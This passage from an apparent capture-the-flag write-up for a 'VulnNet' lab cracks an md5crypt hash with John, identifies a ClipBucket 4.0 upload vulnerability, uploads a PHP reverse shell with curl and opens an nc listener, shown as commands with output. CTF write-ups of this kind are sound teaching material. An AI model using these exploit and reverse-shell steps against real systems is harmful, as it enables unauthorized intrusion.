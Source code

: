 Save this hash and crack it with John:

~~~
┌──(kali㉿kali)-[/data/VulnNet/files]
└─$ /data/src/john/run/john auth.hash --wordlist=/usr/share/wordlists/rockyou.txt  
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
9972761drmfsls   (developers)
1g 0:00:00:13 DONE (2021-05-07 07:32) 0.07262g/s 156946p/s 156946c/s 156946C/s 9982..99686420
Use the "--show" option to display all of the cracked passwords reliably
Session completed
~~~

We now have the credentials (`developers:9972761drmfsls`) to authenticate against the subdomain.

## The broadcast.vulnnet.thm website

We can now go to http://broadcast.vulnnet.thm and use the credentials (`developers:9972761drmfsls`).

The title of the page shows `ClipBucket v4.0`, an Open Source OTT, VOD and Enterprise Video Hosting Solution. Using `searchsploit`, we can identify a critical vulnerability:

~~~
┌──(kali㉿kali)-[/data/VulnNet/files]
└─$ searchsploit clipbucket 4.0
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
ClipBucket < 4.0.0 - Release 4902 - Command Injection / File Upload / SQL Injectio | php/webapps/44250.txt
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
~~~

## Reverse shell

Following the instructions in the exploit, we can upload a php reverse shell to the target:

~~~
┌──(kali㉿kali)-[/data/VulnNet/files]
└─$ curl -F "file=@rev.php" -F "plupload=1" -F "name=rev.php" "http://developers:9972761drmfsls@broadcast.vulnnet.thm/actions/beats_uploader.php"
creating file{"success":"yes","file_name":"1620367741f6065c","extension":"php","file_directory":"CB_BEATS_UPLOAD_DIR"}
~~~

Open a listener (`nc -nlvp 4444`) and browse the uploaded shell (`http://developers:9972761drmfsls@broadcast.vulnnet.thm/actions/CB_BEATS_UPLOAD_DIR/1620367741f6065c.php`). We now have a reverse shell:

